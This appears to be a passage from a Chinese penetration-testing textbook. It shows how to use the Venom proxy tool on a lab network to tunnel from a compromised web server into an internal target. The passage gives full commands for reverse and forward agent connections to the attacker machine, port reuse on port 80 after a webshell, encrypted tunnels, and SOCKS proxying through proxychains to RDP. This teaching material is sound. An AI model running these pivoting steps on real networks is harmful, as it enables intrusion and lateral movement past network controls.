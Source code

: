 


### 3.5.2 通过Venom进行隧道穿透
Venom工具也被称为“毒液工具”，它是一款开源的多级代理工具，使用Go语言开发，支持多种平台。Venom可以将多个节点进行连接，并以节点为跳板构建多级代理搭建网络隧道，渗透测试人员可以使用Venom轻松地将网络流量代理到多层内网管理代理节点，利用"毒液"进行可视化网络拓扑、多级Socks5代理、多级端口转发、端口复用（Apache、Mysql等服务）、SSH隧道、交互式Shell、文件的上传和下载、节点间通信加密等。<br />假设当我们拿下一台Web服务器通过提权获得到Administrator权限，对目标主机信息收集，进行搭建隧道便于后续渗透。此时利用venom工具进行搭建隧道，使用venom工具中Admin服务端进行本地监听，Agent作为客户端在目标主机发起连接。本次实验环境如图3-163所示，本次实验环境表如表3-15所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683864757-8646ceb7-94d3-43c5-a50b-964e622b043e.png#)<br />图3-163通过Venom进行隧道穿透实验拓扑图<br />表3-15 通过Venom进行隧道穿透实验环境表

| 主机类型 | IP配置 |
| --- | --- |
| 攻击机 | 192.168.0.58 |
| Web服务器 | 192.168.0.25，192.168.52.2 |
| 靶机 | 192.168.52.3 |


#### 1.基础使用
    Venom工具支持多款操作系统，它可以跨平台使用，主要是由Admin服务端和Agent客户端组成，作为本地监听连接和主动发起连接使用，下面从Venom工具的基础功能进行讲解，再以正向连接和反向连接为案例进行演示。
##### （1）反向监听
1）首先在攻击机配置，使用venom工具开启服务端监听，执行admin.exe -lport 8888命令，其中的-lport参数指的是监听本地端口，这里指监听本地8888端口，执行结果如图3-164所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683865184-846ddaff-aad2-405a-b10c-89dbf89a36a9.png#)<br />图3-164监听本地端口<br />   2）然后我们通过上传agent客户端到Web服务器，执行agent.exe -rhost 192.168.0.58 -rport 8888命令，让Web服务器主动发起连接攻击机开启的监听，建立起隧道通讯，执行成功如图3-165所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683865569-9cf7d24d-9aca-4d20-ab42-ca483d67892c.png#)<br />图3-165隧道通讯<br />   3）此时服务端会接收建立隧道信息，使用show命令可以显示网络拓扑，如图3-166所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683865820-de39deb1-7232-4868-a61b-aaf1dc65dd6c.png#)<br />图3-166查看隧道信息
##### （2）正向监听
和上述使用场景类似，当拿下Web服务器权限后，通过探测发现Web服务器不出网，但能正常访问主机，可以使用venom工具以正向连接的方式搭建隧道进行渗透。<br />1）上传Agent文件到Web服务器，执行agent.exe -lport 8888命令开启客户端监听。如图3-167所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683866125-1e7cd0cb-d886-41bb-a2d4-3837dade3a9c.png#)<br />图3-167开启目标主机监听<br />    2）然后在攻击机使用Admin服务端发起连接，执行admin.exe -rhost 192.168.0.25 -rport 8888建立隧道通讯，其中-rhost参数指向远程连接ip，-rport参数指连接的端口。如图3-168所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683866368-cdace688-1395-4610-8604-e0184c33eb3d.png#)<br />图3-168建立隧道通讯<br />    3）接下来在攻击机使用show命令验证，可以看到隧道建立成功，如图3-169所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683866643-fa4f96a1-febf-41f0-b228-eff9fbb4bfa3.png#)<br />图3-169隧道搭建成功
##### （3）端口复用
1）假设上传webshell后，Web服务器只有80端口的开放http服务可以利用，下面我们通过venom工具的SO_REUSEPORT"和"SO_REUSEADDR选项进行端口复用，Windows服务器下复用apache中间件的http服务80端口，不影响正常使用。<br />2）上传 agent文件到Web服务器，执行agent.exe -lhost 192.168.0.25 -reuse-port 80命令，设置80端口的复用，如图3-170所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683866906-3ca649d2-f002-4bea-a79b-eb2e6ca794ab.png#)<br />图3-170上传agent<br />    3）在攻击机使用admin服务端执行admin.exe -rhost 192.168.0.25 -rport 80命令，来进行端口复用，如图3-171所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683867148-1f5856aa-f37d-43e5-98d4-79318f1413fc.png#)<br />图3-171端口复用
##### （4）节点间通信加密
1）在节点通讯请求和响应的过程中，如果消息中途被劫持或篡改后果不堪设想，而我们的Venom工具支持隧道通信加密，对通讯数据进行加密保护，本地通过-passwd参数选项指定密码进行设置，密码用于生成AES加密所需的密钥，下面来演示通过-passwd参数指定密码为Admin123.，在攻击机使用venom工具服务端执行admin.exe -lport 8888 -passwd Admin123.命令，为隧道进行加密。如图3-172所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683867400-f6d67cfe-5ba8-4816-9f82-46059c2a33bd.png#)<br />图3-172隧道加密<br />    2）我们在Web服务器使用venom工具客户端agent文件，指定相同的密码与服务端admin连接，执行agent -rhost 192.168.0.58 -rport 8888 -passwd Admin123. 命令，执行成功即可达到隧道节点通讯加密的效果，如图3-173所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683867647-e089642f-e477-4366-9ecf-555c1536ddd8.png#)<br />图3-173隧道节点通讯加密
#### 2.正向连接
正向连接实验环境如图3-174所示，假设前提是获取到Web服务器管理权限后，可以使用venom工具进行隧道利用，具体实验环境如表3-16所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683867898-9db3e612-4dec-4c53-9353-825651da9386.png#)<br />图3-174 实验环境<br />表3-16正向连接实验环境

| 主机类型 | 网络配置 |
| --- | --- |
| 攻击机 | 192.168.0.58 |
| Web服务器 | 192.168.0.25   192.168.52.11 |
| 靶机 | 192.68.52.12 |

1）上传venom工具到Web服务器之后执行agent.exe -lport 8888命令，开启本地客户端监听，我们以正向连接的方式搭建隧道，执行成功如图3-175所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683868127-094e5479-ce53-4eab-84a0-6e5e43d03120.png#)<br />图3-175本地监听<br />    2）攻击机使用venom服务端执行./admin -rhost 192.168.0.25 -rport 8888命令进行连接，其中-rhost参数是指设置远程服务器的端口，此时会连接监听，输入show查看连接情况，如果有A---1，证明已经有客户端连接成功，执行如图3-176所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683868409-360b00b5-f8a0-4e76-8939-95904b2f6496.png#)<br />图3-176连接成功<br />    3）接下来尝试连接socks隧道，输入goto 1命令连接这个客户端，再输入socks 1024设置socks隧道自定义端口，此时已经配置完成socks隧道，如图3-177所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683868689-e73385a3-1604-49ba-a301-05874141191d.png#)<br />图3-177隧道搭建成功<br />  4）随后，在攻击机中修改proxychains4.conf配置文件，并在其底部添加一行socks5127.0.0.1 1024参数来完成 proxychains 代理配置，如图3-178所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683868946-d242e1c7-2de7-4f4b-9532-17b75eeef359.png#)<br />图3-178配置socks5代理<br />    5）当配置完proxychains代理后，即可在攻击机执行proxychains rdesktop 192.168.52.12命令来连接靶机，如图3-179 所示，通过所建立的socks协议隧道，我们可以直接远程连接到靶机。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683869315-5522a19d-b77c-4e75-9023-ff9848b125e1.png#)<br />图3-179连接靶机
#### 3.反向连接
1）反向连接方式和上述类似，适用于出网的情况，我们在攻击机开启监听服务端8888端口，执行./admin -lport 8888命令设置开启服务端监听，如图3-180所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683869774-fcb0ee35-f424-4d5a-ba03-a8150dbda83b.png#)<br />图3-180 监听8888端口 <br />2）完成后，我们上传客户端agent文件到Web服务器，在WEB 服务器执行agent.exe -rhost 192.168.0.58 -rport 8888，其中远程连接的IP 192.168.0.58，在实战中需要公网IP，成功连接如图3-181所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683870014-00bb5cdf-fb50-4141-bc80-58ccd772586e.png#)<br />图3-181成功连接<br />   3）此时已经是搭建好了隧道，输入show查看连接情况，有回显A---1，使用goto 1去连接客户端，使用socks 1024 来搭建socks隧道，执行命令如图3-182所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683870320-6cf6b263-c43b-4c32-927a-cb26fa0de514.png#)<br />图3-182搭建socks隧道<br />    4）随后，在攻击机中修改 proxychains4.conf配置文件，并在其底部添加一行socks5127.0.0.1 1024参数来完成proxychains代理配置，如图3-183所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683870576-7412657c-ed70-4d01-9c06-2bf97ace9f5e.png#)<br />图3-183配置socks5代理<br />    5）当配置完proxychains代理后，即可在攻击机执行proxychains rdesktop 192.168.52.12命令来连接靶机，如图3-184所示，通过所建立的socks协议隧道，我们可以直接远程连接到靶机。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683870916-f769e2cf-b759-49a8-82b3-59b0f335ad01.png#)<br />图3-184连接靶机

